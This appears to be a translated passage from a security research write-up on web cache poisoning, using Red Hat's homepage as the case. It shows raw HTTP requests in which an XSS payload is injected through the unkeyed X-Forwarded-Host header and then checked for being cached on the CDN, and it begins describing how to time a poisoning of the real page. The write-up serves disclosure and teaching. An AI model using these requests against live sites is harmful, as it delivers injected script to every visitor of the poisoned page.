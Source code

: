  

尽管缓存投毒听起来有着可怕的影响，但缓存投毒通常很容易被利用。首先，让我们来看看Red Hat的主页。 Param Miner马上发现了一个非缓存键的输入：

```
GET /en?cb=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: canary

HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
&lt;meta property="og:image" content="https://canary/cms/social.png" /&gt;
```



在这里，我们可以看到应用程序使用X-Forwarded-Host请求头在meta标签内生成了一个打开图片的URL。下一步是探索它是否可利用 – 我们将从一个简单的[跨站点脚本](https://portswigger.net/kb/issues/00200300_cross-site-scripting-reflected)payload开始：

```
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: a."&gt;&lt;script&gt;alert(1)&lt;/script&gt;

HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
&lt;meta property="og:image" content="https://a."&gt;&lt;script&gt;alert(1)&lt;/script&gt;"/&gt; 
```









看起来不错 – 现在可以确定我们可以生成一个在任何浏览者的页面上执行任意javascript的响应。最后一步是检查此响应是否已存储在缓存服务中，以便将其分发给其他用户。不要让“Cache Control: no-cache”响应头阻止你 – 尝试去攻击总比假设它不起作用更好。你可以先通过重新发送没有恶意标头的请求进行验证，然后直接在另一台计算机上的浏览器中访问URL：

```
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com

HTTP/1.1 200 OK
…
&lt;meta property="og:image" content="https://a."&gt;&lt;script&gt;alert(1)&lt;/script&gt;"/&gt;
```

尽管响应中没有任何表明缓存存在的响应头，但我们的漏洞利用代码（exploit）已经被明确的缓存的原因很简单：一次快速 的DNS查询解释了其中的缘由-www.redhat.com是www.redhat.com.edgekey.net的CNAME记录，表明它正在使用Akamai的CDN。

### 确定投毒时机（Discreet poisoning）

 

在这一点上，我们已经证明可以通过向https://www.redhat.com/en?dontpoisoneveryone=1投毒来进行攻击，以避免影响网站的实际的访问者。为了真正的向博客的主页投毒并将我们的漏洞利用代码（exploit）分发给所有后续访问者，我们需要确保在缓存的响应过期后我们发送的请求第一个达到主页。

